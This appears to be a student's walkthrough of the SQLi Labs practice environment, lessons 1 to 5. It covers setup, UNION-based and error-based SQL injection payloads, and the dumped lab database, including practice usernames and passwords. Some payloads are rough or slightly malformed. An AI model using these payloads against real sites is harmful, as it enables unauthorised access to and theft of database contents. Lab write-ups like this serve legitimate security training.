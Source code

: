 # ***SQLi Labs***

First we have to set up sqli labs
For that we can use the following commands
install apache2 webserver by > ````sudo apt install apache2````
install mysql by > ````sudo apt-get install mysql-srver````
install php7
git clone the repository of the lab and start all the services.

## ***LESS1***

The website says,Please input the ID as parameter with numeric value.
So we can input ```?id=1 or 2,3,4,5.....```
when we put ```'``` we get sql error 
thus we have a sql injection
we can comment ou the rest of the query by ```-- -``` or other comments in sql language.
We can dump contents

 ## ***payloads to dump***
 
 We can get version of the server by using ```/?id=-1' union select 1,version(),3--+```
 We can get databasename of the server by using ```/?id=-1' union select 1,database(),3--+  databasename = security```
 Going to the terminal and going to mysql. If we type ``show databases;`` it shows databases
Then We can see security which is our database name. We can find more details ``use security`` with this sql command go into the database.
 Using ``show tables;`` we can see the tables. For looking into the tables ``desc emails;`` and so on...
 
## ***LESS2***
The website says,Please input the ID as parameter with numeric value.
This time when we input use ```?id=1'-- -``` doesn't work.
So we put ``'`` before the 1 and change it as ```?id='1'``` as payload.
Now we can comment it ```?id='1' -- - ```
Now we can dump contents using the payloads.

## ***payloads to dump***

To find column_name ```?id='-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+```
We have more payloads that can we do and get contents of database

## ***LESS3***

The website says,Please input the ID as parameter with numeric value.
This time when we input use ```?id=1'-- - nor ?id='1'-- -``` doesn't work.
So we put ``)`` before the ``'`` and change it as ```?id=1)'``` as payload.
No we can comment it ```?id=1)'-- -```
Now we can dump contents using payloads

## ***payloads to dump***
to find data ```/?id=-1') union select 1,group_concat(username),3 from users```
We have more payloads that can we do and get contents of database

## ***LESS4***

The website says,Please input the ID as parameter with numeric value.
We have to use ``') '`` as payload 
Now can comment it using ```?id=1' ")-- -```
Now we can dump contents using payloads

## ***payloads to dump ***

```?id=-1' ")-- - union select 1,group_concat(username),group_concat(password) from users```
We have more payloads that can we do and get contents of database.

## ***LESS5***

In this challenge we don't get any response form the databse directy to the browser
but we get the error when we break the query,so we can dump the database through the error
we can use ``rand(),floor(),count()`` to get error

## ***payloads to dump***

This will get database ```/?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

to get table names ```/?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

to get columns ```/?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

# ***contents of database***

1.databasename = security

2.tables = emails,referers,uagents,users

3.columns = CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username

4.usernames = Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password = Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
